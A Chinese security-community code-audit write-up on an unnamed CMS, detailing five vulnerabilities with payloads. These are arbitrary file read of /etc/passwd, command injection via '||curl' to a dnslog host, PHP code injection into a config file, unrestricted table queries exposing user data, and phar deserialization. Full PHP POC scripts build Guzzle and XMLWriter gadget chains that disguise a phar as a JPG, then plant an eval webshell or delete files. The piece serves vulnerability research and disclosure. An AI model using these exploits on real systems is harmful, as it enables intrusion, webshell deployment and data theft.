# 记一次对某 CMS 系统的代码审计 - 先知社区

记一次对某 CMS 系统的代码审计

- - -

# VUL1-文件读取漏洞

这个函数功能是读取 pdf 显示到网页，但是没有对文件名和路径进行限制，造成任意文件读取  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240219141126-b6c2a73c-ceed-1.png)  
例如，读取 index.php 文件

```plain
file=index.php
```

注意到这段代码限制了只能在当前路径下读取文件

```plain
$files = $this->str_replace_once('/','',$files);//替换开头的/
```

显然这种过滤似乎难不倒任何人

```plain
file=//etc/passwd
```

不过在实战中发现 open\_basedir 限制了目录️  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240219141218-d60a9398-ceed-1.png)

# VUL2-命令注入漏洞

这个函数使用 LibreOffice 的命令行工具来执行一个 PPT 转换成 PDF，然后显示到页面上  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240219141232-de41d54e-ceed-1.png)  
没有对 file 参数进行验证就直接插入命令里面执行，可以使用管道符进行命令拼接执行  
payload:

```plain
file=||curl 9tkhrb.dnslog.cn||
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240219141250-e8b0d624-ceed-1.png)

# VUL3-后台代码注入漏洞

漏洞点在保存网站设置的功能上，它会将设置的内容以序列化的形式写入到`config/wzsz.php`当中  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240219141309-f450edde-ceed-1.png)  
设置的内容是保存在 PHP 文件，可以直接插入 php 代码  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240219141318-f9a140e0-ceed-1.png)  
保存设置后，访问 config/wzsz.php 即可执行  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240219141327-ff1ffcc8-ceed-1.png)

# VUL4-任意数据查询漏洞

漏洞点位于 home 控制器的 cxxsjg 函数，接收参数 bm(表名) 和 id 进行查询并返回结果到页面  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240219141338-054b0764-ceee-1.png)  
表名和 id 是可控的，可以任意传入表名进行查询，前提是包含字段 id  
例如，查询 users 表

```plain
id=1&bm=users
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240219141352-0db7ee1c-ceee-1.png)  
成功查询到用户信息

# VUL5-文件上传结合 phar 反序列化漏洞

## 什么是 phar?

在 PHP 中，Phar（PHP Archive）是一种将多个 PHP 文件、资源和其他文件打包成一个单独的可执行文件的格式。Phar 文件类似于 Java 的 JAR 文件或 Python 的 Egg 文件。

## POC1

FileCookieJar 链任意文件写入，入口点  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240219141412-198652ec-ceee-1.png)  
`save`函数写入了文件  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240219141432-25e3cf38-ceee-1.png)  
文件名可控，文件内容就是 cookie 通过 json 加密后的字符  
观察`setCookie`函数发现参数是`SetCookie`类  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240219141448-2f4a5e52-ceee-1.png)  
`SetCookie`的构造函数传入数组  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240219141459-35803af8-ceee-1.png)  
使用`array_replace`函数替换默认数组字段

```plain
$this->data = array_replace(self::$defaults, $data);
```

也就意味着 cookie 的字段名只能为`defaults`中的字段名  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240219141523-441c1686-ceee-1.png)  
构造的 cookie 如下

```plain
new SetCookie([
        'Name' => 'foo',
        'Domain' => '<?php echo eval($_REQUEST[\'111a\']); ?>',
        'Value'  => 'bar',
        'Expires' => time()]);
```

接着通过`FileCookieJar`类去将 cookie 写入文件即可

```plain
<?php
  require 'vendor/autoload.php';
  use GuzzleHttp\Cookie\FileCookieJar;
  use GuzzleHttp\Cookie\SetCookie;
  $obj = new FileCookieJar('111.php');
  $obj->setCookie(new SetCookie([
      'Name' => 'foo',
      'Domain' => '<?php echo eval($_REQUEST[\'111a\']); ?>',
      'Value'  => 'bar',
      'Expires' => time()]));
  var_dump(serialize($obj));
?>
```

运行之后也是成功写入了文件 111.php  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240219141612-619569ec-ceee-1.png)  
最后打包生成 phar

```plain
<?php
require 'vendor/autoload.php';
  use GuzzleHttp\Cookie\FileCookieJar;
  use GuzzleHttp\Cookie\SetCookie;
  $obj = new FileCookieJar('111.php');
  $obj->setCookie(new SetCookie([
      'Name' => 'foo',
      'Domain' => '<?php echo eval($_REQUEST[\'111a\']); ?>',
      'Value'  => 'bar',
      'Expires' => time()]));
  var_dump(serialize($obj));

  $phar = new Phar('phar.phar');
  $phar -> startBuffering();
  $phar -> setStub('GIF89a'.'<?php __HALT_COMPILER(); ?>');
  $phar ->addFromString('test.txt','test');
  $phar -> setMetadata($obj); 
  $phar -> stopBuffering();
  rename('phar.phar','phar.jpg');
?>
```

CMS 也是自带一个 ueditor，刚好用于上传文件  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240219141633-6d8c8578-ceee-1.png)  
然后通过前面的任意文件读取漏洞去触发 phar 反序列化  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240219141641-729b9392-ceee-1.png)  
成功写入一句话木马  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240219141648-76f2acaa-ceee-1.png)

## POC2

XMLWriter 链任意文件删除  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240219141702-7f0ef998-ceee-1.png)  
XMLWriter 类的销毁函数使用了 unlink 进行删除文件，条件是 PHP\_OS != 'WINNT'即目标系统不能是 windows  
POC 如下：

```plain
<?php
    namespace PhpOffice\Common;
    class XMLWriter {
         public function __construct(){
            $this->tempFileName="111.php";
         }
    }
    $obj = new XMLWriter();
    $phar = new \Phar('phar.phar');
    $phar -> startBuffering();
    $phar -> setStub('GIF89a'.'<?php __HALT_COMPILER(); ?>');
    $phar ->addFromString('test.txt','test');
    $phar -> setMetadata($obj); 
    $phar -> stopBuffering();
    rename('phar.phar','phar.jpg');
```

上传文件，触发 phar 反序列化  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240219141724-8c80361e-ceee-1.png)  
可以发现 POC1 中的 111.php 成功被删除  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240219141732-91379800-ceee-1.png)
